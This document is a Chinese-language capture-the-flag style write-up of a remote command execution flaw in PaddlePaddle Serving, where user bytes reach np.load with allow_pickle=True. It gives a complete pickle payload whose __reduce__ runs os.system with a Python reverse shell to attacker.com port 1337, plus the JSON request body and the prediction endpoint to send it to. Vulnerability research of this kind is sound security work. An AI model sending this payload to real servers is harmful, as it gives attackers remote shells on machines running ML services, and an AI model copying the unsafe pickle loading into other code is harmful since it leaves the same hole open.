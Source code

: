 # 题目描述

Flexible to serve ML models, and more.

# 解决方案

这里直接使用paddle框架提供的一个示例程序来开启服务，配置都是官方提供的，不做任何更改，事实证明是存在任意命令执行漏洞的。

首先，这个问题需要从[paddle_serving_server](https://github.com/PaddlePaddle/Serving/tree/v0.9.0/python/paddle_serving_server)中去找漏洞，先跟到WebService类，发现如下函数：

```python
    def prepare_pipeline_config(self, yml_file=None, yml_dict=None):
        # build dag
        read_op = pipeline.RequestOp()
        last_op = self.get_pipeline_response(read_op)
        if not isinstance(last_op, Op):
            raise ValueError("The return value type of `get_pipeline_response` "
                             "function is not Op type, please check function "
                             "`get_pipeline_response`.")
        response_op = pipeline.ResponseOp(input_ops=[last_op])
        self._server.set_response_op(response_op)
        self._server.prepare_server(yml_file=yml_file, yml_dict=yml_dict)
```

然后看pipeline的第一步RequestOp，其文档注释如下：

```
    RequestOp is a special Op, for unpacking one request package. If the
    request needs one special unpackaging method, you need to inherit class
    RequestOp and rewrite function unpack_request_package.Notice!!! Class
    RequestOp does not run preprocess, process, postprocess.
```

这个是处理用户传输的数据的，发现函数proto_tensor_2_numpy有如下处理逻辑：

```python
        np_data = None
        _LOGGER.info("proto_to_numpy, name:{}, type:{}, dims:{}".format(
            tensor.name, tensor.elem_type, dims))
        if tensor.elem_type == 0:
            # VarType: INT64
            np_data = np.array(tensor.int64_data).astype(int64).reshape(dims)
        elif tensor.elem_type == 1:
            # VarType: FP32
            np_data = np.array(tensor.float_data).astype(float32).reshape(dims)
        elif tensor.elem_type == 2:
            # VarType: INT32
            np_data = np.array(tensor.int_data).astype(int32).reshape(dims)
        elif tensor.elem_type == 3:
            # VarType: FP64
            np_data = np.array(tensor.float64_data).astype(float64).reshape(
                dims)
        elif tensor.elem_type == 4:
            # VarType: INT16
            np_data = np.array(tensor.int_data).astype(int16).reshape(dims)
        elif tensor.elem_type == 5:
            # VarType: FP16
            np_data = np.array(tensor.float_data).astype(float16).reshape(dims)
        elif tensor.elem_type == 6:
            # VarType: BF16
            np_data = np.array(tensor.uint32_data).astype(uint16).reshape(dims)
        elif tensor.elem_type == 7:
            # VarType: UINT8
            np_data = np.array(tensor.uint32_data).astype(uint8).reshape(dims)
        elif tensor.elem_type == 8:
            # VarType: INT8
            np_data = np.array(tensor.int_data).astype(int8).reshape(dims)
        elif tensor.elem_type == 9:
            # VarType: BOOL
            np_data = np.array(tensor.bool_data).astype(bool).reshape(dims)
        elif tensor.elem_type == 13:
            # VarType: BYTES
            print(tensor.byte_data)
            byte_data = BytesIO(tensor.byte_data)
            np_data = np.load(byte_data, allow_pickle=True)
        else:
            _LOGGER.error("Sorry, the type {} of tensor {} is not supported.".
                          format(tensor.elem_type, tensor.name))
            raise ValueError(
                "Sorry, the type {} of tensor {} is not supported.".format(
                    tensor.elem_type, tensor.name))
```

看到np.load函数，且allow_pickle为True，[numpy文档](https://numpy.org/doc/stable/reference/generated/numpy.load.html)里已经明确指出allow_pickle为True是有风险的，到这里我们就可以开始构造攻击载荷了，如下：

```python
import pickle
import base64

reverse_shell = """export RHOST="attacker.com";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'"""

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(reverse_shell,))

print(base64.b64encode(pickle.dumps(PickleRce())))
```

写入的base64会被解码，但是我在源码中找了半天没有找到解码的语句，不过json不能传字节，必须编码成字符，自然想到尝试base64编码。

然后根据proto_tensor_2_numpy知道我们需要传送的数据格式，如下：

```json
{
    "tensors": [
        {
            "name": ":psyduck:",
            "elem_type": 13,
            "byte_data": "pickled data"
        }
    ]
}
```

pickled data为我们构造的攻击载荷，直接POST请求接口`http://127.0.0.1:18082/uci/prediction`，带上json数据，即能成功执行我们想要执行的命令。
